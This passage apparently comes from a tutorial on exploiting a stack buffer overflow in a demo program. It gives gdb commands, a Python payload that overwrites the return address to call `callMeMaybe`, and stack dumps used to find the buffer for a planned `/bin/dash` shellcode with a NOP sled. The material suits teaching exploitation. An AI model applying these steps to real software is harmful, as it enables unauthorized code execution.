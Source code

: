 We have a 140 offset. So we know that we have to pass 140 octets before putting the address of the callMeMaybe function.

The callMeMaybe address is :

```sh
gdb-peda$ p callMeMaybe
$1 = {void ()} 0x80484c6 <callMeMaybe>
```

We now have everything we need to execute this command through the buffer overflow vulnerability.
For call the function `callMeMaybe`, it is necessary to run the program with an offset of 140 followed by the address of the function in little endian (`0x80484c6` =>  `0xc6840408`).

```sh
gdb-peda$ run $(python -c 'print "A" * 140 + "\xc6\x84\x04\x08"')
```

Great, we just got owned ;), we get the message `Pwned !!`.

## Shellcode execution

The Shellcode is a program composed of hexadecimal commands.

Before, we found the offset (140), we dispose of a 23 bytes shellcode which correspond to the `/bin/dash` command.
Now we need to find the address of our buffer. We can use `gdb` to get it, the `A` character equal to `0x41` in hexadecimal. Let's pass in argument two hundred `A` and check the ESP register to find them.

```sh
gdb$ run $(python -c 'print "A" *200')
gdb$ x/100xg $esp
0xffffd490:	0x622f73746e656d75	0x65764f7265666675
0xffffd4a0:	0x65642f776f6c6672	0x336f6d65642f6f6d
0xffffd4b0:	0x410032332d31762f	0x4141414141414141
0xffffd4c0:	0x4141414141414141	0x4141414141414141
0xffffd4d0:	0x4141414141414141	0x4141414141414141
0xffffd4e0:	0x4141414141414141	0x4141414141414141
0xffffd4f0:	0x4141414141414141	0x4141414141414141
0xffffd500:	0x4141414141414141	0x4141414141414141
0xffffd510:	0x4141414141414141	0x4141414141414141
0xffffd520:	0x4141414141414141	0x4141414141414141
0xffffd530:	0x4141414141414141	0x4141414141414141
0xffffd540:	0x4141414141414141	0x4141414141414141
0xffffd550:	0x4141414141414141	0x4141414141414141
0xffffd560:	0x4141414141414141	0x4141414141414141
0xffffd570:	0x4141414141414141	0x0041414141414141
0xffffd580:	0x524e54565f474458	0x544942524f00373d
0xffffd590:	0x4454454b434f535f	0x2f706d742f3d5249
0xffffd5a0:	0x72672d746962726f	0x535f474458006d61
```

We can estimate that the buffer address is between `0xffffd4c0` and `0xffffd570`. Attention, the `gdb` address can be a bit different than when the program is running outside of it. To avoid this problem we will take an address in the middle of our buffer, for example `0xffffd510`, it is not important to target the exact buffer address because we will use a NOP sled.
